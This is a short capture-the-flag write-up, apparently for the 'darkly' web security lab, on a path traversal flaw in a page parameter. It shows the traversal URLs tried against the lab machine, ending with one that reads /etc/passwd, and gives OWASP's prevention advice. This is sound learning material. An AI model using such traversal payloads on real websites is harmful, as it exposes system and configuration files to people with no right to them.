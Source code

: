 # PATH TRAVERSAL

## Explanation

I found the vulnerability "path traversal" on OWASP website.

In the examples provided :
- "http://some_site.com.br/some-page.asp?page=index.html" is said vulnerable to the following url vulnerability
  - => "http://some_site.com.br/some-page.asp?page=../../../../dir/file"

It's very similar to the system used in darkly's website to navigate between pages
- => "http://VM_IP/?page=pagename"

I tried
- "http://VM_IP/?page=../../../"
  - => error message is `"Nope..."`
- "http://VM_IP/?page=../../../../../../../../../../../../../../"
  - => error message is `"You can DO it !!!  :]"`

Understood that I had to input a specific file instead of a directory
OWASP explicitely says to try for the /etc/passwd file

- "http://VM_IP/?page=../../../../../../../etc/passwd"
  - => Got the flag

## Exploitation

> This attack is for the attacker to access arbitrary files and directories stored on file system including :
>  - application source code
>  - configuration files
>  - critical system files

The attacker could then use these pieces of information to penetrate the system further for example.

## Prevention

> - Don’t store sensitive configuration files inside the web root
> - Prefer working without user input when using file system calls
> - Ensure the user cannot supply all parts of the path – surround it with your path code

## Documentation

[OWASP - path traversal](https://owasp.org/www-community/attacks/Path_Traversal)